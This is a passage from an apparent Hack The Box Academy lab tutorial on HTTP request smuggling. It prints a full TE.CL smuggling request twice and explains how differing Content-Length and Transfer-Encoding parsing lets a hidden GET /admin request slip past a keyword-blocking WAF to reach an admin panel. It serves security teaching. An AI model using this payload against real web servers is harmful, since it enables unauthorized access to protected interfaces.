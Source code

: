The response to the first request contains the expected 404 response:

![image](https://academy.hackthebox.com/storage/modules/191/req_smuggling/tecl_3.png)

However, the second response is an HTTP 200 status code and contains the admin panel, so we successfully bypassed the WAF:

![image](https://academy.hackthebox.com/storage/modules/191/req_smuggling/fixed_tecl_4.png)

Let's look at the TCP stream to figure out what exactly happened. Let's look at it from the WAF's view first:

```
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb

0

GET /404 HTTP/1.1
Host: tecl.htb

```

The WAF uses the TE header to determine the first request's body length. The first chunk contains `0x27 = 39` bytes. The second chunk is the empty chunk which terminates the request. The WAF thus sees two GET requests to `/404`. Since none of these requests contain the blacklisted keyword `admin` in the URL, the WAF does not block any of the two requests and forwards the bytes via the TCP connection to the web server.

Now let's look at the TCP stream from the web server's view:

```
GET /404 HTTP/1.1
Host: tecl.htb
Content-Length: 4
Transfer-Encoding: chunked

27
GET /admin HTTP/1.1
Host: tecl.htb

0

GET /404 HTTP/1.1
Host: tecl.htb

```

The web server uses the CL header to determine the first request's body length. Since the CL header gives a length of `4` bytes, the web server parses the first request up until `27\r\n`. The following data marks the beginning of the next request. So the web server sees three requests in the TCP stream: a GET request to `404` to which it responds with a 404 page since that URL does not exist, a GET request to `/admin` to which it responds with the admin panel, and a third request that has invalid syntax. We can confirm this by looking at the web server log which clearly shows the three requests:
